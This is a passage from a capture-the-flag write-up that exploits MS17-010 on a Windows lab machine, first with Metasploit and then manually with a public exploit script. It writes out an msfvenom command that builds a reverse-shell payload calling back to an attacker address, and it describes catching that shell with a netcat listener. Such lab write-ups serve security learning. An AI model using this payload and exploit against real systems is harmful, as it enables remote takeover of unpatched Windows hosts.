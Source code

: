 From here we can navigate to John's desktop to capture the user flag.  
<img width="272" alt="image" src="https://user-images.githubusercontent.com/114961392/201552659-6504b609-7efb-4917-93fa-d793007be575.png">

Then we can navigate straight to the Administrators directory and capture the root flag.  
<img width="314" alt="image" src="https://user-images.githubusercontent.com/114961392/201552784-74112d8f-10e2-4db6-835c-e98d919d6182.png">

## Exploitation [without Metasploit]

### MS17-010

Now that I have conpromised the target with Metasploit, let's have a look at some manual exploits. After doing some research for MS17-010, I found an interesting exploit on Github from [helviojunior](https://github.com/helviojunior/MS17-010). I will be using the send_and_execute.py script to send and execute a crafted payload from msfvenom.  
First, let's create the payload with msfvenom.  
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o payload.exe  
<img width="677" alt="image" src="https://user-images.githubusercontent.com/114961392/201569393-0eca9563-3dd3-4bfe-8896-b3f0e9755055.png">

Open a netcat listener, and run the exploit.  
<img width="355" alt="image" src="https://user-images.githubusercontent.com/114961392/201569860-11993ff9-b3ab-4b18-832c-e9fb41ebb1ef.png">

After the exploit has executed, you should get a connection back on netcat.  
<img width="289" alt="image" src="https://user-images.githubusercontent.com/114961392/201570005-bb47d617-735d-40bb-a4dc-5a4b70b87276.png">
